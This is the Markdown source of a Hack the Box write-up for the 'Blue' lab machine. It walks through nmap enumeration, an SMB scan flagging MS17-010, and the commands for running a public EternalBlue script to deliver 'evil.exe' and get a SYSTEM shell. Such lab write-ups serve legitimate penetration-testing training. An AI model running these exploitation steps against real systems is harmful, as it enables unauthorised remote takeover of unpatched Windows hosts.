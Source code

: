 ```yaml
---
title: Hack the Box - Blue
date: 2022-08-15 19:30 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Blue](/assets/HackTheBox/Blue/Blue.png)

# Blue Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.40|Blue|Windows|

## Path to Exploitation

We leverage the host's vulnerability to MS17-010 to fully compromise the host.

# Enumeration 

## Full Port Scan

```bash
nmap 10.10.10.40 -p- -oA Blue/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```bash
nmap 10.10.10.40 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oA Blue/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# SMB

## SMB Nmap Scan

```shell
$ nmap -p 139,445 --script=smb-vuln* 10.10.10.40 -Pn -oA nmap/smb-scan
```
```cmd
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

<mark>We see the host is vulnerable to MS17-010</mark>

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/k4u5h41/MS17-010_CVE-2017-0143) script to attack the machine.

Use the checker.py script to identify the named pipes available
```shell
$ python checker.py 10.10.10.40
```
![SMB Checker](/assets/HackTheBox/Blue/exploit-check.png "Checking Pipes")

We can try supplying the guest username to the script and seeing if we get different results.
![With Guest User](/assets/HackTheBox/Blue/modify-checker.png "With Guest User")
```shell
$ python checker.py 10.10.10.40
```
![Found Pipes](/assets/HackTheBox/Blue/found-pipes.png "Found Valid Pipes")

We can now try executing the send_and_execute.py script using the guest user.

![Modify the Exploit](/assets/HackTheBox/Blue/modify-exploit.png "Modify the Exploit")

```shell
$ python send_and_execute.py 10.10.10.40 evil.exe 445
```
![Launch Exploit](/assets/HackTheBox/Blue/exploit.png "Launch the Exploit")

We now have a shell on the machine as the SYSTEM account
![Shell on Host](/assets/HackTheBox/Blue/shell.png "SYSTEM Shell")



